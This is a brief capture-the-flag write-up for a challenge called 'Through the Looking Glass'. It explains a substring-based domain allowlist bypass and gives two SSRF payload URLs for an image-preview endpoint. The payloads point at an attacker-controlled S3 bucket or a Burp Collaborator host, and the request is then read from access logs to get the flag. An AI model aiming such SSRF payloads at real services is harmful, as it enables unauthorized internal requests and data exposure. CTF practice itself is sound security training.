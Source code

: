 # Through the Looking Glass
# Author: [Krishna](https://github.com/krishnast545)

# Solution

- Server only accepts the domains with {node-assets} in the domain .
- Either use payload as: node-assets.burpcollab.url or your own s3 bucket and with name containing node-assets and exploit ssrf to get logs in your Cloudtrail access log and get the flag. 

```
api/ticket/preview-image?url=http://ANYTHING.node-assets.s3.ap-south-1.amazonaws.com/image.png
```

```
api/ticket/preview-image?url=http://node-assets.burpcollab.url/image.png
```
